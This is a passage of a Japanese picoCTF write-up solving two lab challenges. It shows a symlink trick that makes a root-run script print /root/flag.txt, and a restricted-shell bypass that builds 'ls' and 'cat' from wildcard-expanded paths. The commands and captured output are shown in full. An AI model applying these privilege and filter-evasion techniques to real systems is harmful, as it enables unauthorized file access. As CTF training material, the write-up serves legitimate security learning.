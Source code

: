 その他にもいくつかクイズがあったので解答します。

```bash
$ nc tethys.picoctf.net 53210
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```

シェルが実行されました。
問題にあるように`/root/flag.txt`がありましたが権限がなく読み取れません。
`/root/script.py`を見てみると、`/home/player/banner`を読み取って出力していることがわかります。
そこで、`/home/player/banner`に`/root/flag.txt`のシンボリックリンクを張り、`/root/script.py`を実行するとフラグが出力されました。

```bash
player@challenge:~$ rm banner
rm banner
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner

$ nc tethys.picoctf.net 53210
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}

what is the password?
```

## SansAlpha

指定されたサーバーにアクセスしてみると、数字と一部の記号しか使えないことがわかる。

```bash
SansAlpha$ ls
SansAlpha: Unknown character detected
SansAlpha$ 1
bash: 1: command not found
SansAlpha$ ?
bash: ?: command not found
```

ワイルドカードである`?`は使えるので`/???/???/???`のようにすると`/var/log/sys `のような該当するパスとして認識される。
これを配列として変数(`___`や`____`など)に格納してスライスして使えば任意の文字として扱うことができる。

```bash
SansAlpha$ ___=(/???/???/?????)
SansAlpha$ $___
bash: /etc/ssl/certs: Is a directory
SansAlpha$ ____=(/???/?????/???)
SansAlpha$ $____
bash: /sys/class/bdi: Is a directory
SansAlpha$ ${___:7:1}${___:5:1} # ls
blargh    on-calastran.txt
${___:3:1}${____:7:1}${___:2:1} * # cat *
cat: blargh: Is a directory
The Calastran multiverse is a complex and interconnected web of realities, each
~~~
cosmic harmony.
SansAlpha$ ${___:3:1}${____:7:1}${___:2:1} ??????/* # cat ??????/*
return 0 picoCTF{7h15_mu171v3r53_15_m4dn355_775ac12d}Alpha-9, a distinctive layer within the Calastran multiverse, stands as a
~~~
```